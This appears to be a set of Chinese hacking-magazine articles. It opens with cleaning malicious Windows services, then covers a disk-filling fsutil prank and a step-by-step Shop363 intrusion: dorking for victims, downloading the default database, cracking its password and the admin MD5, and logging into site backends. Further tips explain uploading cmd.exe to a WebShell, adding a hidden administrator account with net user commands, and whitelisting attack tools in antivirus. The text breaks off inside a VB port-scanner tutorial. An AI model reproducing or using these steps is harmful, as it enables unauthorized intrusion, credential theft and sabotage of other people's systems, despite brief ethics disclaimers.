

图3

### 三、使用Launch Application as Service清除垃圾服务

Launch Application as Service是一款功能强大的系统服务管理软件，在其主窗口的“Localhost”面板中显示所有的服务项目，包括服务的显示名称、服务名称、运行状态等参数。在其中选中需要删除的服务，在其右键菜单（如图2）上点击“Delete Service”项……

#### 四、使用卡卡安全助手清除垃圾服务

在瑞星卡卡安全助手窗口工具栏中点击“高级工具”按钮，在窗口左侧点击“启动项管理”项，在右侧窗口中打开“服务项”面板（如图3），在其中默认显示所有非系统的服务项目，包括其安全级别、状态、位置、描述信息、公司名称等内容。据此您可以非常轻松地找到需要清理的服务项目。在目标服务的右键菜单上点击“禁用”项，即可禁止该服务运行。也可以在上述菜单中点击“跳转到相关位置”项，即可直接打开注册表，并自动定位到该服务对应的主键路径中。直接将该服务的注册表主键删除，随后重新启动电脑，即可让其从系统中彻底消失。

#### 五、使用系统硬件配置文件清除垃圾服务

在“我的电脑”图标的右键菜单上点击“属性”项，在系统属性窗口的“硬件”面板中点击“硬件配置文件”按钮；在硬件配置文件窗口点击“复制”按钮，输入新的配置文件名称（例如“CleanService”），创建新的硬件配置文件。随后在Windows的服务管理窗口双击恶意服务项目（例如“QQCVK”病毒服务），在其属性窗口中打开“登录”面板，在其底部显示所有的硬件配置文件名称，在其中选中上述硬件配置文件，点击“禁用”按钮，这样该恶意服务在新的硬件配置文件中就无法运行了。然后重启电脑并选择上述硬件配置文件，当进入系统后该恶意服务就无法启动了。在注册表编辑器中打开“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services”分支，查找到恶意服务主键路径，在其中的“ImagePath”键值名中记下病毒文件路径，也可以打开其下的“Parameters”分支，在其中的“ServiceDll”键值名中找到病毒文件路径。最后在注册表中删除病毒服务项，同时将相关病毒文件删除即可。

## 摸透小命令fsutil

若干年前曾经流行过一阵网页恶意代码和文本炸弹式破坏程序，其中一般都少不了“Format /U /Q”（无条件快速格式化硬盘）和“Deltree /Y”（无条件删除目录）之类的DOS命令；另外，还有一些病毒喜欢通过复制N多文件的方式来迅速占满硬盘空间（尤其是系统盘），这样的一些损人不利己的破坏行为很是令人不齿。当然，我们在做好安全防护的同时最好是掌握这些代码的运行机理，甚至，我们也同样能做出类似或更“好”的程序来。删除文件或格式化硬盘就免谈了（别伤了朋友感情），通过简单的一个Windows小命令来迅速填满朋友电脑的硬盘空间倒不失为一个很不错的整蛊方法，在愚人节或自己不爽的时候“修理”somebody一次。

在朋友起身如厕几分钟之内，迅速进入对方电脑的CMD窗口模式下，输入“E:”，后回车转到E盘（其他盘符均可）；然后输入命令“fsutil file createnew bomb.txt 1073741824”，回车，很快这个E盘就会生成一个大小为1GB的bomb.txt空文本文档（如图1）。



只要你愿意，完全可以把命令中最后的那个数字设置得稍大些，其中的“1073741824”是三个1024相乘的结果，意思是生成的bomb.txt大小正好是1GB。如果提前编写个批处理文件，其中加上For循环命令的话，估计再大的硬盘空间也扛不了这样的几分钟折腾，呵呵。其实，利用Fsutil命令不仅可以这样来“使坏”，这样的招式我们完全可以用来做测试——生成一个大小正好是多少的文件，测测看新买的U盘容量是否如JS所云。

### 菜鸟黑客成长之“借蛋生技”法

年晓东

正所谓做什么都有第一次，而所有的“大牛”们也都是从菜鸟走过来的。在“黑道”上不断摸索前进的菜鸟们，如何进行持续、高效的技术自学是不断成长的不二法则。除了做《X》的忠实粉丝坚持不懈地阅读和复习杂志之外，如何进行入门之后的“修行”呢？有句老话叫作“见多识广”，貌似黑客“大牛”们一般都是在入侵检测中左右逢源，甚至有时会在瞬间就秒杀对方，他们平时储备和积淀的丰富知识就像是武林高手所修炼的深厚功力，碰到问题时自然就会想到它的解决方法，或者有一个从旧技术而衍生出来的新招式来应对新问题。今天与大家共享一个自我提高的高效学习方法，我把它叫作“借蛋生技”法，其实就是尽可能多地接触目前已经被曝光的漏洞判断及利用方法，并且务必要照葫芦画瓢地操作演练一番，很适合于成长中的菜鸟。经过一段时间的“借蛋生技”自我修炼过程，相信你也会在之后的入侵检测中体验到“非一般”的感觉了，不知不觉中便会功力大增。

平时建议大家在网上多找些“蛋”来研究一下，就以Shop363网店程序的漏洞为例吧（企业网站的安全性一向是比较弱的），因为无意之中在网上看到一篇名为“shop363网店程序真正通杀漏洞利用”的文章（貌似2010年就有了），大家可以百度或Google一下。文章中说虽然Shop363的注射过滤做得比较到位但安全性还是非常弱，比如默认的数据库可以被远程下载等等。我们菜鸟直接按照文章所述来操作即可：

打开百度或Google，以关键字“技术支持：shop363.net”进行搜索，在百度出的近千个（Google是3万多个）结果中，除了一小半是该漏洞内容的通报及利用方法之外，剩下的大都是采用Shop363网店程序的网站。以百度出的第一条某家居饰品网站记录为例（http://www.9xxxxxxr.com/），我们只须在浏览器地址栏中将该域名后面添加“Data_Shop363/Date_Shop363_shop.mdb”进行访问，结果真如文章所说——出现了下载网站默认数据库的提示（如图1）。





不过，当双击准备调用Access来打开下载的Date_Shop363_shop.mdb时，却被提示“请输入数据库密码：”，似乎比较安全。其实，数据库已经被下载了，突破这层小小的障碍几乎是不费吹灰之力。这里我们用到一个名为“AccessUnLock[解密].exe”的绿色小程序（462KB），双击运行之后先点击“路径”按钮定位Date_Shop363_shop.mdb，然后点击“获取口令”按钮即可迅速破解出该数据库的密码是“action-shop363?”（如图2）。字母、数字和特殊符号都有，貌似很安全。接着，使用该口令打开数据库，再双击打开第一个表“Shop363_Admin”，发现其中有账号“admin”和对应的“dfcb806c8afcab14”MD5密码（如图3）。将该MD5密码复制到在线MD5网站破解，得到结果是“279631871”。

现在，如果你有兴趣，还可以进行若干其他入侵检测“知识点”的复习，比如网马的上传来得到WebShell，或者再添加隐藏超级账号进行提权，使用3389远程桌面连接，抓到自己的“肉鸡”等等。怎么样？经常多跟着“前辈”的脚印进行“借蛋生技”，当所研究的“蛋”足够多的时候，相信到那时无论是你的见识储备还是触类旁通的技能都会上个台阶的。“借蛋生技”，向着“大牛”的方向，一看齐！



图3



图4

在该网站域名之后添加“/admin_shop363”进行访问后台管理的操作，将账号、密码和验证码分别输入之后点击“登录”按钮，成功进去了（如图4）。看，在“SQL注入管理”中果然有个“SQL通用防注入系统”，将很多的IP锁定了，因为曾经提交过类似于“and 1=2”、“and 8=8”等的注入测试数据，证明了文章所说的“将注射中的空格、select、%20、+号、还有/**/等过滤为空”果然不虚。当然，既然是“通杀”，那就是说所有使用该模板的网站都会犯下这同一个错误，使用同样的方法都能进入后台管理，于是再测试百度结果的第二条网站记录（某二手车网站http://www.cxxxxxxxx.com），结果真的是如出一辙：可以下载默认的数据库Date_Shop363_shop.mdb，打开密码也是“actionshop363?”，后台登录地址也是“/admin_shop363”……只要管理员所设置的账号密码不是太复杂（可以被在线MD5破解出来），那么都可以直接登录进入后台管理（如图5）。看看，一样都具有“SQL通用防注入系统”呢！



图5

> （文中涉及的软件本期光盘已收录）

### 扩展名也玩儿“障眼法”

那天给正在上小学的孩子在网上寻找《语文》的朗读资料，来到了“语文课文朗诵网”——http://www.968816.com/，不仅各版本、各年级的资料都比较齐全，而且在试听后发现朗读者彭鹤的声音非常专业，非常适合孩子跟着学习。但是，问题接着就来了：我们必须得停留在该网页上实时倾听，人家不提供下载服务。

貌似这是一个非常容易解决的小问题，但经过一番尝试后却没能成功，包括查看网页的源文件搜索.mp3和.wav之类的音频文件、用迅雷等影音下载工具守株待兔，还有在本地的缓存文件夹中搜索……很郁闷，总不能让我因此去进入人家的网站后台吧？或者，用最笨的办法：开Windows的“录音机”进行强行录音？静下来又想了想，总觉得其中一定有解决的方法，因为镶嵌网页中的Flash播放器既然能够将声音“送”到我们的耳边，那就说明音频数据一定是到达了我们本地；那么，它究竟会躲藏在什么地方呢？只能是本地的缓存文件夹，没第二个地方啊！

中间“Internet临时文件”的“设置”按钮，然后点击“查看文件”按钮即可（如图1）。按Ctrl-A选择所有的临时文件，再按Delete键删除它们，清一下场先；然后回到360浏览器访问目标课文“小英雄雨来”的朗诵页面……点击“播放”按钮，随时观察缓存文件夹中新增长文件的变化情况……文件倒是不多，但没发现有mp3之类的声音文件及Flash文件产生；再看一下文件的大小，大部分都是几个KB的……不过，却有一个图片文件占用空间最大，是“14小英雄雨来.jpg”，快到6MB了（如图2）……将声音文件强行改为jpg“图片”文件下载到了用户的本地缓存文件夹？



图2

试试不就知道了？将这个jpg的扩展名修改成.mp3，再双击，证实了刚才的想法，该网站果然是将缓存的声音文件施了“障眼法”，用强行修改文件扩展名的方法来将声音文件混为图片文件，达到防止用户从缓存中提取朗诵声音的目的……建议大家提个醒：在入侵目标和黑客工具等客观元素都相同的情况下，有时一个很小的变通就会带来完全不一样的结局，Fighting！



### 那些高手“不留手”说的……

菜鸟学黑前进的道路是快乐和充满曲折的。说它快乐，是因为我们可以不断享受到按图索骥式成功的喜悦和兴奋；说它曲折，是因为碰到的“不知道”太多了……很多的“不知道”堆积起来，最终就会变成我们菜鸟成长的瓶颈和桎梏。别无它法，只有将那些遇到的“小问题”一个个都消灭掉，变成“我懂的”，我们才能慢慢从菜鸟队伍中“脱盲”！

百度或Google，然后就下载，接着就是关闭本地安全软件的实时监控来运行。这种“裸奔”式入侵过程往往是很危险的，试想，假如下到的“黑工具”中被人暗中动了手脚加入其他不相干的木马后门，我们岂不是成了第三方的肉鸡？……那么，如何解决“黑工具”既不能使用安全软件来检测又不能随便从网上“拿来”的矛盾呢？

### 1.“黑工具”的安全

大家所使用的90%以上的“黑工具”都是各种安全软件的查杀对象，这已经是众所周知的常识。也正是因为如此，很多菜鸟在从网上下载“黑工具”的过程中会比较随意，比如直接百度或Google，然后就下载……

菜鸟应该养成经常到那些比较有名气的黑客论坛转转的习惯，从这样一些正规的黑客论坛上下“黑工具”，而且特别要仔细看看资源的发布者是不是刚刚注册了几个小时就发帖的“新人”。另外，还可以使用一些文件MD5校验工具来检查验证下载的文件是否可靠。

当然，最保险的方法就是到官网下载。

#### 2. 把“死”工具用“活”

目前的扫描类工具都属于机械的“死”工具，利用自身所挂接的数据库记录来进行暴力测试。以“明小子”为例，有时我们会遇到测试某网站具有注入点，但在猜解表名完毕时却得不到任何信息的情况，此时可千万不要轻易放弃。只要我们有针对性地添加一些自定义的记录，往往会把“死”工具用活。有时可以在目标网站上看一下信息的发布者，是否是那些最为常见的“Admin”“佚名”之外的管理者。比如有相当一部分管理者喜欢使用带有自己网站域名部分作前缀的 admin，此时我们就可以先在“明小子”中点击“猜解表名”左侧的“添加”按钮，将“palelite_data”作为尝试猜解的数据表名；然后点击“猜解列名”左侧的“添加”按钮，将“palelite_admin”和“palelite_password”作为尝试猜解的账号及密码列；最后点击“猜解内容”按钮，就有可能猜解出该网站的账号和密码（如图2）。

另一方面就是“黑工具”的安全使用。除了在虚拟机、沙盒等环境下之外，最为便利的方式就是将它们添加到安全软件的白名单之中。比如在360安全软件系列中，当第一次在本地运行“中国知音3389爆破工具.exe”时，首先会有“Windows无法访问指定设备、路径或文件。您可能没有合适的权限访问这个项目。”的提示，接着360木马防火墙也会提醒“发现木马，建议立即清除”。此时可点击提示窗口中的“添加信任”（如图1），这样该工具就从“黑名单”进入“白名单”，具有了和其他正常程序一样的运行权限。如此一来，我们就可以开着安全软件的实时监控来使用这些“黑工具”进行入侵实战了，一举两得。


图1


图2

## 3. WebShell中“出镜率”最高的为什么是“回收站”？

在得到目标网站的账号、密码和后台登录地址之后，比较经典的做法就是上传网页木马、备份数据库来拿到WebShell了。在WebShell中，为了进一步达到提权的目的，通常都会将本地的 cmd.exe 上传到对方C盘的 RECYCLER（回收站），为什么呢？一是隐蔽性比较好，二是要求该目录必须有写入权限。

而另外一个需要注意的细节是：先点击“浏览”按钮选择本地的 cmd.exe 文件，接着在左边“上传路径：”后将上传到对方回收站的文件起个同样的文件名“C:\recycler\cmd.exe”（如图3），最后才是点击“上传”按钮进行文件传送。值得一提的还有使用 cmd.exe 来提权的两条重要命令，分别是：

```vb
net user admin 123456 /add
net localgroup administrators admin /add
```

作用是先新建一个名为“admin”、登录密码为“123456”的账号，然后将它提升至管理员组。


图3

最后，真诚地奉劝各位：学技术千万不能嚣张，甚至做出一些比较过火的事情来。前一阵在咱的论坛上看到了有X城县公安局被黑的页面截图，这位兄弟高调留下了QQ、邮箱等若干挑衅信息；另外11月初在猫扑上也看到了该网页友情链接“性病治疗、不孕不育”等无关信息的截图，很让人无语。其实，圈内有很多高手已经被“招安”了，这些大侠们是去真正做一些爱国的事，令人好生羡慕。连我这“半瓶晃荡”的菜鸟，甚至也曾经帮XX局做过千里之外取证的“大事”（小小地“虚荣”一下哈）。我们学的是技术，切不可以身试法，有机会还是应该做些报效祖国的有益之事，而不是把“爱国”当作一句口号。

### 端口，扫！扫！扫！
### ——VB简单编写端口扫描器

炫风舞

相信端口扫描器没人不知道吧？除非你火星了。最基础的扫描就是从端口开始的，那么什么是端口扫描呢？

端口扫描是指某些别有用心的人发送一组端口扫描消息，试图以此侵入某台计算机，并了解其提供的计算机网络服务类型（这些网络服务都与端口号相关）。攻击者可以通过它了解到从哪里可探寻到攻击弱点。实质上，端口扫描包括向每个端口发送消息，一次只发送一个消息。接收到的回应类型表示是否在使用该端口，并且可由此探寻弱点。

下面，我就教大家用VB来编写一个简单的端口扫描器。这个扫描器的原理非常简单：通过VB中的“Winsock”控件来连接对方IP，并通过判断端口的回应来进行端口扫描。

先给出程序的主界面（如图1），我们要用到4个“Label”控件、5个“Text”控件、3个“Command”控件；设计好界面后，我们开始编写代码。


图1

首先进行外部声明，代码如下：

```vb
Dim portnum As Long
Dim start As String
```

首先对“Command1”控件进行声明，代码如下：

```vb
Private Sub Command1_Click()
    If Text1.Text = "" Then
        MsgBox "没有IP你怎么扫描？", , "提示"
        Exit Sub
    Else
    End If
```

```vb
Else
End If

If Not IsNumeric(Text2.Text) Then
    MsgBox "看看参数框吧", , "提示"
    Exit Sub
Else
End If

If Not IsNumeric(Text3.Text) Then
    MsgBox "看看参数框吧", , "提示"
    Exit Sub
Else
End If

If Text2.Text = "" Or Text3.Text = "" Then
    MsgBox "没端口你在哪儿扫描？", , "提示"
    Exit Sub
End If

Dim Xuanfengwu
Xuanfengwu = Split(Text1.Text, ".")

Dim i As Integer
If UBound(Xuanfengwu) = 3 Then
